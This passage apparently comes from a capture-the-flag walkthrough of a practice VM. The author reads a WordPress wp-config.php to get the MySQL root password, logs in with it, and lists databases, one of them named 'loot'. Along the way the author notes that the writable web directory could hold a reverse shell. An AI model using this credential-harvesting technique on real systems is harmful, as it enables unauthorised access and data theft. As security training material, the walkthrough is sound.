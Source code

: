 I can write to www, would be an easy place to drop a reverse shell if I needed to keep access and was worried about my account.

SHayslett@red:/var/www/https/blogblog$ more wp-config.php

****snip****

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'plbkac');

/** MySQL hostname */
define('DB_HOST', 'localhost');
**

SHayslett@red:/var/www/https/blogblog$ mysql -u root -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 93
Server version: 5.7.12-0ubuntu1 (Ubuntu)

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| loot               |
| mysql              |
| performance_schema |
| phpmyadmin         |
| proof              |
| sys                |
| wordpress          |
+--------------------+
8 rows in set (0.00 sec)
